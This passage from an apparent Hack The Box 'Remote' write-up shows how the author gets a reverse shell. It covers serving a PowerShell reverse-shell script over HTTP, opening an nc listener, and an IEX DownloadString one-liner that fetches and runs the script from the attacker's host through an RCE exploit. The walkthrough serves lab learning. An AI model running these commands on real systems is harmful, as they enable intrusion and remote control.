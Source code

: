 ![](/images/rm-shelltemp2.png)

Now we need to make this file available for download, so we can download it from the target machine using our code execution abilities.
```
┌──(adam㉿Harambe)-[~/htb/remote/www]
└─$ sudo python3 -m http.server 80
``` 
>Remember you have to do this in the directory your powershell script is in.

Setup a listener on your machine on the port you used from the command. 
```
┌──(adam㉿Harambe)-[~/htb/remote]
└─$ nc -lvnp 9001         
Listening on 0.0.0.0 9001
```

### Powershell-Fu

Now for the tough part, we need to craft a command using powershell's syntax and fit it into the RCE exploit's command syntax.

With some googling, I found `"IEX (New-Object Net.WebClient).DownloadString('https://location/to/file')` as the powershell command to download a file. So for the exploit's syntax, `-c` will be `powershell.exe` and the argument will be `"IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1')"`

![](/images/rm-dl.png)

If everything was set up correctly, you should have a session going on your nc listener and are now on the box.
